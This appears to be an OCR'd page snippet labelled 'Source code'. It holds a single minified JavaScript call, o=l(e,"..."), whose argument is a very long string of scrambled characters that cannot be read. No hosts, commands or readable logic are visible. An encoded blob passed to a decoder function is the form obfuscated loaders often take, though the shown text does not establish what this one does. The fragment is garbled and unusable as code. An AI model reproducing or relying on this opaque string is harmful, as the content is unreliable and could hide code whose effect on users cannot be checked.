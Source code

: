 o=l(e,"jhd(9>gba72SxCTISQgg77xxpp((g>7axS>g(db#7bx2ICadxa}7dTb^bTC/Ta(a>x2>xI7bxbI2dCgy7(9g(IgxgF7(x>IadSa77dxTIbd2>CT((b>b7SCMI9(9(x7Cx9aIChI9db>2C2dIga77STxT(9gg77xbI7TI(>7(xTIaxu2SaadTxa9(gx+a79a7x(TTdh>9xIdI>2ahxhI>dd>yd*>2a>SaTSgTxWIbdH>TagSIIhSbI(hx9IadIS>979gTxaL7(+(22(S(S9T2h79xbIug9271SIbISdT9hb9222S(T(hg97bx2ILdbbaabxSbThh99bSThI9hb22CC2HT9Sbb9aba2SCThh99bbm(hChh>8bg27CxgT7dSxhb9S>aadTdIg92g97XSI2bT7Ox(IbdTb(7gT27Cahg9gbI2SC9Tg9>b>2SThC>CgOC(SgT2hdabv2TC7*>C9hx(7gx7IhagT2gxIT9(2bg22CTT/(agx2dxCI((bgS7aCpT99h9d(b)hC2I2Tsb2Cgba:S{.(gg>7axSgT7CC7:2xS?a(8g(7gh>gS7dx(LhhagbaIC2I7(7IS((g07(xg97aCChIb((gxdT>T7hx9Ibd2SCI9E(IbdC>xaIxd(7bbSdCxxdI7db>2aC((g(aSSTI/xYIgd>>aaSE(>I77x9aSxgIMd(>gIgd>>CaSxdIh(>>(>(>>aIS2TCdk7bISdS9C7(SSI9dgTxdh>ha9Sb>aadxbagSgT7hx9IadS>dg>S9IaaS9Tbh27CTxh9>IbTSTIdS>T>ha9SbTShd9a>a2awS:T(hg97bx9I9C>>97bC2TThh9SxT2SWcd2hKbba6xa(CIa9b7SdCThh99C2h79SbT2aC7hCCChb9db>2adIb(S7TaI29(ab2>b(2gCx.x(Ibd2>CaxS7hSh2>Tdc2(Cb_Ib(SahS}xgh9(gba2SC(e>C>fS(2gC2R9hb>SkCh2dCdO>(agS7TIhb(bbgS2bCc&((gSCUh9bbgbaCbWb(Cb(gbga22xCOo((S7IT(2g(a;C9Ux(9g972xbIa(Tgg7ICh77x7IxdIgd7>xa97gTg9SagaadxCd>TF7T(adCgg7dx>Iaahxb/9dC>77gxd7hxbIgd7>xTddSgIaC>xxIxhI9db2TI>d7gg9gSII>dS>b9>xITx(hhh79x7I7(h>>agx2TTdN_I77STIxd(1TgTx(Igda96a>Sg2g+IhI(IS9ITCa>ha(S>T7d79Sa7a7SxTIdd(xSTI.C>9xa9xhT9d(>7bT>_a,S(Tgh79x>Idud>h7>dbTShT9g22IIhI(>daa2TbI2ITdh>9abS2TI>>9929ad7T7>(Tdb(a7hTh(9xba2SCT>9S(T>ha9db(SbbbxdCxnI9dxdhb92bx79C7Q2(7gOS9T>OI9bb(SdS2!T(xgI2(CIT>9SbT2IbhCdCg^7(xThn99Cbx2(T(VT(g9hg77xh99xbg7T27T49>ba7CCIx9(2gab97IxT5=(2gb2hxTRN((g7aThdoS(dg77bxH(>(Cg97Sx7xC6C(dg>7ad>9b7IxaIx9d(I7>xSIb(Ig>7TC97gChISdTghT9((>S2gx>1> CgT7>g17ax>IadS7II9(ago24xd7hxxIgd7>xC((b>a7(bSTh(rgg7>>CaCxKI(dg>7axIa(dda>aaSSTIhd9IbT2ICIhd7>ga7Sxgd7dS2TChIghddg>abS2TCgCxdISdx>hghxbI7dx>2axadxbd(>(a=SSa9SxT7hx9Ix>d9>9a2xHS9SbTbh29Ca-S(Tg>9axaQT<T>ha9Sxpd289a92ICxhI>Ca>SbThxI9(a(2x7SII>gb>S>CT,T9xbaggxCh999(da7Thh79>bC2CT2hdICgaaxSIxxUI99bb2>27TvoT9hb9IxhTbg2C2>27C7<x(Ibd2>>a>CbTbd2TCb62(Cx9-a9TbCbTT9hg97bb27bh2hC9zb(2gCT!(h9g(2b>7ICdN>bSC(II9(g>72CTqd9dD9(2g77xxIgI7TCg<QCha(xd2hI29d+7hh2>7xxxII(dg>7aaS>bbhg>2hx2IC(m22IS(C9I79C9 S(h>T7(g979xbI2dCgP>(da(7dCg77dx>IabTxCPg(g>2aIS Ih(hg7d2g^aIxdI>gTx2Ix(>Ibdb>2aCx.I(9gS2xxxdIdd>>aaSSTIhgh7baSxhINd(>gIad2>Taa>g7^SSTTdh7CI>dCghahxhT7hTTxdr>>a>SaTShT>ha9T(d2hT>2a(SgT7biS9I2d7(SbT2ITCh79ShC9Ca*S(Tgh79xTdIdTgdh9SbTSh(abxxdIhIx99ba2TTaSVT>h>9abSh99CaC92b22CT.h(9gb7TahIh>9>ba2SCThhd9ThT2CThh9(bg27*Chn97b>2aCSgh22Cgh(9(bS2bbg2gC7Yx(Ibd2>d99S(Ibg29CbE2a(Td:99(gT(IgI2dC>wa(SgTT>h9ma9(gC28C(>77xCTU9(bb(bITsUbCdpa(bg27Ch7gg2>Cb7IxI?d(>ga7SgTgSb9g272xCkm((gg77hd(I((g77axSIT7ax>q9dIIT(9g(7gx7gO7TC7o(x7ICdTgh79hx92dTg97(xgI7b2xeIId2I7((>T7hx9g97(xSI7(6>I2(xh7txTI>da>SC*({ggaSSIIIU(gd7dxaITIdI>d>>aaSSTIhp9xgx2xmI0d(>ga7SxTIdd>>a7x/TTdh>9x2dg>x7(Saa7S7TxhI>da>Ia9A>T>daaSbT2hCSCT9hI>bhC>7adS>TagaSCIgdb9xggSdThd79Sh2>abISdT>gI2xTbd>d2agSxx6ha9xad2CbIxa>(x>gah?>x72>(92b22CToh(9gb7h9hIh(9xba2SCTbbSgTghbdI>ba>b727CxiI9db>ga9b9T99b92bC2QC9*7(hdh7zI(Ibd2>CaMS(Tghg(C2y2(Cb,2(Cgx7722I2>C>la(SgT2hC9Ibb7bQ2kC(Gg(7gx>I(79>(7b77TChy9b2CdIT9dg977CC1h9h9(77xx%3(dM9(9gb72xCzVS(SdC7CbII(dg>2(xSIT(hg>7Ix2IC(MS(;>(xg>2(xS^9(gIx(hgh79xbga7dCb79xSI7dx>ITbF7gh7a7&7dxSIbd2>CTgdxg77dSTISdbIg(T>SaTxh(gaaSCIadbg>7>xTI2d(9g7bS7I7(hgha>x7TIdS>(7x>ga2SxTId>>>aaSSTTdh>9bbb7TTd>>(agS7(d7hS(IdhCTThT>ha9SbT2hCaSx(S7T7hx9IadS>TahS9TahS9Tbh29C7CS(Tgh79xh>SdT>ha9SbTShT99b9SbCS0T(h297ad2ITdhb9abS2TTdh99bb2CCI(h(9gb7SUCIha9>baSCCThh99b722CCh